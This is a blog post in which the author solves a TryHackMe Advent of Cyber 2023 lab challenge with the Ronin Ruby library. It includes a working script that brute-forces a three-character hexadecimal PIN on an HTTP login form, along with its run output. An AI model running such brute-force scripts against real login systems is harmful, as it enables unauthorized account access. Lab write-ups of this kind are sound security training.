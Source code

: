 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 3 using Ronin
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

The Day 3 challenge involves a basic HTTP form which accepts a three digit PIN
code. The PIN code can contain numeric or uppercase hexadecimal numbers.
The instructions for the challenge recommends using the [crunch] utility to
generate a wordlist file containing every three character combination of
uppercase hexadecimal characters and then use [hydra] to bruteforce the login
form. Instead, we're going to do all of that in a single Ruby script using
Ronin and it's powerful libraries.

First, we will test the HTTP form by intentionally entering an incorrect PIN
code and seeing what the response is. In the Network tab of Chrome DevTools,
we can see a failed login attempt results in a HTTP 302 response with a 
`Location` header of `error.php`. Since we don't know what a valid login
HTTP response looks like, we will have to assume anything that is not a
HTTP 302 redirect to `error.php` can be considered a successful login.

Next we will write a bruteforcing Ruby script which will send every possible
three character combination of numbers and uppercase hexadecimal characters.
To do that we will use the [chars] library, which provides a
[Chars::UPPERCASE_HEXADECIMAL] constant containing the characters `0` - `9` and
`A` - `F`. Then we will call the [Chars::CharSet#strings_of_length] method to
generate every three character combination of uppercase hexadecimal characters.
Then we will use [ronin-support] to establish a persistent HTTP connection and
send login requestions until a non-HTTP 302 redirect response is returned.

```ruby
require 'ronin/support'
require 'chars'

include Ronin::Support

wordlist = Chars::UPPERCASE_HEXADECIMAL.strings_of_length(3)

ip   = ARGV[0]
http = http_connect(ip,8000)

response       = http.get('/pin.php')
session_cookie = response['Set-Cookie']

wordlist.each do |pin|
  print_info "Trying #{pin} ..."
  response = http.post('/login.php', form_data: {pin: pin},
                                     cookie:    session_cookie)

  if response.code == '302' && response['Location'] == 'error.php'
    # login failed, keep trying ...
  else
    print_success "Jack Pot! #{pin}"
    exit 0
  end
end
```

Now to run the bruteforcing Ruby script against the target machine IP address.
We will add the `--jit` option to try to speed up our Ruby script as much as
possible.

```shell
$ ruby --jit bruteforce.rb 10.10.185.45
```
and eventually we will hit the correct PIN code:

```
...
[*] Trying 6F2 ...
[*] Trying 6F3 ...
[*] Trying 6F4 ...
[*] Trying 6F5 ...
[+] Jack Pot! 6F5
```

As you can see, Ronin provides you with powerful libraries that can make solving
CTF challenges easy and fun.

[Advent of Cyber 2023]: https://tryhackme.com/room/adventofcyber2023
[crunch]: https://www.kali.org/tools/crunch/
[hydra]: https://www.kali.org/tools/hydra/
[chars]: https://github.com/postmodern/chars.rb#readme
[Chars::UPPERCASE_HEXADECIMAL]: https://rubydoc.info/gems/chars/Chars
[Chars::CharSet#strings_of_length]: https://rubydoc.info/gems/chars/Chars/CharSet#strings_of_length-instance_method
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme

